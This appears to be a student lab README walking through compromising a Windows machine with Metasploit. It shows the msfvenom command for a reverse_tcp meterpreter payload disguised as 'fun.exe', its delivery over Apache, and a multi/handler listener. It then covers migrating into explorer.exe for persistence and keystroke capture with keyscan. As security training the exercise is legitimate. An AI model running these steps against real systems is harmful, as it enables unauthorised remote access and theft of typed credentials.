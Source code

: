 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

Find the attackers ip address using ifconfig
## OUTPUT:

![Alt text](img/ifconfig.png)

Create a malicious executable file fun.exe using msfvenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.228.13 -f exe > fun.exe
## OUTPUT:
![Alt text](img/msvenom.png)
![Alt text](img/venom2.png)

copy the fun.exe into the apache /var/www/html folder
## OUTPUT:
![Alt text](img/sudocpy.png)
Start apache server
sudo systemctl apache2 start

![Alt text](img/apache2.png)

Invoke msfconsole:
## OUTPUT:
![Alt text](img/msfconsole.png)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

![Alt text](img/help.png)
Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
## OUTPUT:
![Alt text](img/keyscan.png)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads.
![Alt text](<img/apache server.png>) 
Bypass any warning boxes, double-click the file, and allow it to run.
![Alt text](img/fun.png)
On kali give the command exploit

![Alt text](img/keyscan.png)

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156
![Alt text](img/meterpreter.png)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
![Alt text](img/netstat.png)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![Alt text](img/notepad.png)
keyscan_dump	Shows the keystrokes captured so far
![Alt text](img/keyscan.png)
## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.

